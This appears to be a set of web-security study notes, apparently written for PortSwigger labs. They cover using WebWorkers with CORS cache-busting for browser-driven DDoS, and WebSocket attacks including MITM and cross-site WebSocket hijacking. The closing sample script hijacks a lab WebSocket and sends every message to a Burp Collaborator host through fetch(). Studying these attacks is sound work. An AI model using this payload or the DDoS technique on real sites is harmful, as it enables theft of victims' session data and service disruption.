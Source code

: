 # WebWorkers
## WebWorkers + CORS – DDoS Attack
With CORS, if in the response to the first request is either missing the Access-Control-Allow-Origin header or the value is inappropriate, then the browser will refuse to send more requests to the same URL.

To bypass this limitation, we create dummy requests and add fake parameters in the query-string. In doing so, we force the browser to transform each request, therefore identifying it as unique.

`http://victim.site/dossable.php?search=x`

# Websockets

## WebSockets vs HTTP
Some modern web sites use WebSockets. WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a messag.

## Establishing a web socket
WebSocket connections are normally created using client-side JavaScript like the following:
```js
var ws = new WebSocket("wss://normal-website.com/chat");
```

> The wss protocol establishes a WebSocket over an encrypted TLS connection, while the ws protocol uses an unencrypted connection.

### Sample Request 
```
GET /chat HTTP/1.1  
Host: normal-website.com  
Sec-WebSocket-Version: 13  
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==  
Connection: keep-alive, Upgrade  
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2  
Upgrade: websocket
```

### Sample Response
```
HTTP/1.1 101 Switching Protocols  
Connection: Upgrade  
Upgrade: websocket  
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```


## Attacks

### MITM Attacks
In addition, the `WebSocket Protocol` standard defines two schemes for web socket connections: `ws` for unencrypted and `wss` for the ***encrypted**. If the implementation uses the unencrypted channel, we have a `MiTM` issue whereby, anybody on the network can see and manipulate the traffic.

## Manipulating WebSocket messages to exploit vulnerabilities
- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

> The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

## Manipulating the WebSocket handshake to exploit vulnerabilities
- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

## Cross-site WebSocket hijacking
### Explanation
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

> unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

Note: The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

### Sample exploit script
```html
<script>
websocket = new WebSocket('wss://ac631f5e1f1b3d0080dd77cf00e1008c.web-security-academy.net/chat')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY");
}
function handleReply(event) {
  fetch('https://7iqu3i67oznpep8xuy3o5rsgp7vxjm.burpcollaborator.net/?'+event.data, {mode: 'no-cors'})
}
</script>
```